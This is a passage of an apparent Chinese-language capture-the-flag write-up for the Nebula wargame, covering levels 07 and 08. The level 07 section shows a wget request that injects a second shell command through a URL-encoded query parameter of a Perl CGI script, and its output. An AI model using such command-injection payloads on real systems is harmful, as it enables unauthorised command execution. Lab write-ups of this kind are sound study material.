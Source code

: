 ## Level 07

没用过 Perl，不过我猜和 level 02 差不多。

从 /home/flag07/thttpd.conf 可以看出来监听端口是 7007

用 query string 塞注入命令的时候要 urlencode 一遍

```bash
level07@nebula:~$ wget http://127.0.0.1:7007/index.cgi?Host=1.1.1.1%3Bgetflag%20%3E%20%2Ftmp%2Ff07 -O/dev/null -q
level07@nebula:~$ cat /tmp/f07
You have successfully executed getflag on a target account
```

## Level 08

把 capture.pcap 拖到本地用 wireshark 打开，追踪 TCP 流，用 hexdump 形式显示
![l08](/assets/img/l08.png)
